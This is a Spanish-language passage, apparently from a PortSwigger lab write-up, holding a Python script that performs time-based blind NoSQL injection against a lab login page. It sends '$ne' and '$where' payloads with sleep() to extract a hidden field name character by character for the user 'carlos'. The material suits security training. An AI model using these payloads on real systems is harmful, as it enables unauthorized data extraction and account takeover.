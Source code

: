 Nos `creamos` un `script` de `python` como `alternativa` al `Cluster bomb`

{% raw %}
```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a6500eb04601776824d6aae006d0026.web-security-academy.net/login"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    headers = {
        'Content-Type': 'application/json'
    }

    with open("output.txt", "w") as f:
        for position in range(0, 10):
            for character in characters:

                json_data = {
                    "username": "carlos",
                    "password": { "$ne": "testing" },
                    "$where": "function(){ if(Object.keys(this)[4].match('^.{%d}%s.*')) sleep(5000); }" % (position, character)
                }

                p1.status(json_data['$where'])

                time_start = time.time()

                r = requests.post(url, json=json_data, headers=headers)

                time_end = time.time()

                if time_end - time_start > 5:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```
{% endraw %}

